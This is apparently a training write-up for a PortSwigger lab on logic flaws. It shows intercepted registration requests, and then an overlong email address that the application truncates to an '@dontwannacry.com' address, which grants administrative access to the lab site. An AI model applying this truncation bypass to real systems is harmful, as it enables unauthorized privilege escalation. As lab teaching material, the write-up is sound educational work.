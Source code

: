 # [Lab 4: Inconsistent handling of exceptional input](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-inconsistent-handling-of-exceptional-input)

---

## Description

This lab doesn't adequately validate user input. You can exploit a logic flaw in its account registration process to gain access to administrative functionality. To solve the lab, access the admin panel and delete Carlos.

---

## Solution

Navigate to the registration page. A banner indicates that employees should use their `@dontwannacry.com` email address.

![](images/Pasted%20image%2020210826161007.png)

Register an account with an email address of that domain and intercept the request.

```http
POST /register HTTP/1.1
Host: ace51f401f1f375d80c20e0200f600a4.web-security-academy.net
Cookie: session=i56Tk2XKwQOcgJIjdGjgK2PjVDvlKcQX
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 97
Origin: https://ace51f401f1f375d80c20e0200f600a4.web-security-academy.net
Referer: https://ace51f401f1f375d80c20e0200f600a4.web-security-academy.net/register
Upgrade-Insecure-Requests: 1
Te: trailers
Connection: close

csrf=2Syvqg2wU8bw2Tm0HWt2zFxffuBucGlz&username=tgihf&email=tgihf%40dontwannacry.com&password=blah
```

The response from the application indicates that an account registration link to sent to the specified email address, which is inaccessible.

It seems that to access the administrative panel, one needs to register an account with the `@dontwannacry.com` email address. The challenge's exploit server gives access to the email address `@exploit-ac4a1f8c1ffd37c280b20e5701bf000f.web-security-academy.net` and any subdomains of that domain. Perhaps the application only ensures the string `dontwannacry.com` is in the email address. If this is the case, then it may be possible to bypass this restriction by regstering an account with `dontwannacry.com` as the subdomain of `exploit-ac4a1f8c1ffd37c280b20e5701bf000f.web-security-academy.net`. Attempt to register an account with this email address.

```http
POST /register HTTP/1.1
Host: ace51f401f1f375d80c20e0200f600a4.web-security-academy.net
Cookie: session=i56Tk2XKwQOcgJIjdGjgK2PjVDvlKcQX
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 97
Origin: https://ace51f401f1f375d80c20e0200f600a4.web-security-academy.net
Referer: https://ace51f401f1f375d80c20e0200f600a4.web-security-academy.net/register
Upgrade-Insecure-Requests: 1
Te: trailers
Connection: close

csrf=2Syvqg2wU8bw2Tm0HWt2zFxffuBucGlz&username=tgihf&email=tgihf%40dontwannacry.com.exploit-ac4a1f8c1ffd37c280b20e5701bf000f.web-security-academy.net&password=blah
```

This request successfully causes the web application to send an email confirmation link to the email server given by the challenge.

![](images/Pasted%20image%2020210826163519.png)

Follow the link to finish registering the account. Login with the account. Unfortunately, the account doesn't have administrative access.

It seems that the application only allows administrative access to users whose email addresses are of the `dontwannacry` domain. How does the application go about ensuring that the email is a part of this domain? Perhaps it just compares the last 12 characters to the email address to `dontwannacry` and if they are equal, allows the user to have administrative access.

After some trial and error, it becomes clear that the application stores the user-input email address into a limited-size buffer such that if the buffer is overflowed, the application only saves the first N characters as the email address. The buffer size appears to be 255 characters. Thus, by inputting the email address `aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaadontwannacry.com@exploit-ac4a1f8c1ffd37c280b20e5701bf000f.web-security-academy.net`, the application sends the account registration email to the attacker-controlled email address and saves the email address as `aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaadontwannacry.com`. Logging in with this account grants administrative access. Delete `carlos`'s account to complete the challenge.
